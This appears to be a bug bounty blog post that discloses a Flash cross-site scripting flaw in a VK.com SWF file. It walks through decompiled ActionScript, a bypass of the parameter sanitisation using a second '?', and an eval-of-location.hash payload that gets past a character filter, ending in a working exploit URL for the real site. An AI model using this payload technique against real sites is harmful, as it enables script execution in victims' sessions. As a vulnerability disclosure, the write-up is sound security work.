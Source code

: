 ```yaml
---
layout: post
title: "Interesting flash xss on vk.com"
categories: Hacks
tags: hacks
image: https://i.imgur.com/wBhOE51.png?1
---
```


### Introduction

Every time I try a bug bounty program on **HackerOne**, I first check for flash files on the domains which are in scope. Flash files are always
a good target as far as I am concerned. Approximately three months back, I came across **VK.com** bug bounty. So, when I searched for flash files
I came across one file named **photo_uploader_lite.swf**. So, I opened the file in my browser and the file got downloaded instead of getting played
in the browser. I ran curl to check the response headers and body.

```
$ curl -i http://vk.com/swf/photo_uploader_lite.swf

HTTP/1.1 200 OK
Server: Apache
Date: Wed, 30 Sep 2015 14:14:31 GMT
Content-Type: application/zip
Content-Length: 12189
Last-Modified: Tue, 21 Jul 2015 16:43:33 GMT
Connection: keep-alive
ETag: "55ae76b5-2f9d"
Expires: Sun, 04 Oct 2015 14:14:31 GMT
Cache-Control: max-age=345600
Accept-Ranges: bytes
```

The file was being served with content type `application/zip`. When I saw the first few bytes of the flash files I recognized the **CWS** file
header which is present for compressed flash files. This flash file will work as expected when embedded using an *object* or *embed* tag. But for a flash
xss, you cannot embed swf on your domain (No actionscript methods were exposed to JS). At this point of time, I lost hopes but still wanted to
have a look at the decompiled code. The following snippet only consists of the interesting code segments for better readability.

{% highlight actionscript linenos %}
package {
    // some imports
    class ExternalCall {
        public static function Simple(_arg1:String):void{
            Call(_arg1);
        }
        private static function Call(... _args):Boolean{
            var _local2:Array;
            var _local3:RegExp;
            if (ExternalInterface.available){
                _local2 = (_args as Array);
                _local3 = /[^().a-z0-9_]/gi;
                _local2[0] = _local2[0].replace(_local3, "");
                return (ExternalInterface.call.apply(null, _local2));
            };
            return (false);
        }
}
package {
    // some imports
    public class Main extends Sprite {

        public function Main():void{
            super();
            if (stage){
                this.init();
            } else {
                addEventListener(Event.ADDED_TO_STAGE, this.init);
            };
        }
        private function init(_arg1:Event=null):void{
            var mouseMove:* = null;
            var mouseOut:* = null;
            var e = _arg1;
            if (some_mouse_over_condition) {
                mouseOver();
            }
            var mouseOver:* = function ():void{
                ExternalCall.Simple(config.onMouseOver);
                stage.addEventListener(Event.MOUSE_LEAVE, mouseOut);
                insideFrame = true;
            };
        }
    }
}
package {
    // some imports

    public class Config {

        private static var _config:Object = {
            // ... some params ...
            onMouseOver:"debugLog",
            // ... some more params ...
        };

        public static function loadConfig(_arg1:LoaderInfo):Object{
            var parameters:* = null;
            var urlQuery:* = null;
            var urlVars:* = null;
            var key:* = null;
            var loaderInfo:* = _arg1;
            try {
                loaderInfo = LoaderInfo(loaderInfo);
                parameters = loaderInfo.parameters;
                urlQuery = loaderInfo.url.split("?")[1];
                urlVars = new URLVariables(((urlQuery) || ("")));
                for (key in urlVars) {
                    if (parameters[key]){
                        delete parameters[key];
                    };
                };
                setConfig(parameters);
            } catch(error:Error) {
            };
            return (_config);
        }

    }
}
{% endhighlight %}

The cleansing of parameters object was being done in the method **loadConfig**. So, any parameter provided in the url is removed from the parameters object.
This looked to me like a protection against flash xss because in a legitimate embed scenario parameters are provided through the **param** html tag. Ideally,
this is a really good way but they forgot something. Have a look at **line 66**. They are extracting url parameters by `loaderInfo.url.split("?")[1]`. What
if the url is something like

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&param1=value1
```

As far as flash player is concerned the parameters object will have the following values

```
h = h?
param1 = value1
```

But the url parameters extracted by swf will have the following values (as they are considering only 1 index element after splitting)

```
h = h
```

So, when they try to remove url parameters from the flash parameters object, only `h` gets removed but not `param1`. So, we successfully got our
url parameter to stay intact in the parameters object. Cool. **Line 39** has a call to `ExternalCall.Simple` with argument `config[onMouseOver]`. Now
ideally if you put anything like `alert(1)`, `confirm(1)` etc.. it will work. For me a bug is something which can be exploitable. Our next challenge
lies at **line 12**. The only allowed characters in your javascript call are `a-z`,`0-9`,`(`,`)`,`.`,`_`. Javascript strings are common part of any
useful payload, but quotes are filtered here. `,` is not allowed which prevents usage of `String.fromCharCode`. `window.location.hash` came to my mind. So,
a working payload will be

{% highlight javascript %}
eval(window.location.hash.substr(1))
{% endhighlight %}

Now you can place any js code in the fragment part of the url. All this is awesome, but the file is not played by the browser as of now because of the content
type. In this desperate time, my old friend **IE** came to my rescue. If you carefully observe the response headers there is no `X-Content-Type-Options`.
So, when I opened the url in IE, KABOOOOM!!! It sniffed the content type and played the flash file. Ah, the bug is finally exploitable but only in **IE**

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&onMouseOver=eval(window.location.hash.substr(1))#alert(document.domain);
```

A different payload is in the image

![vk.com Flash XSS](https://i.imgur.com/wBhOE51.png?1)

**HackerOne Report is present [here](https://hackerone.com/reports/66121)** (Not public at the time of writing)
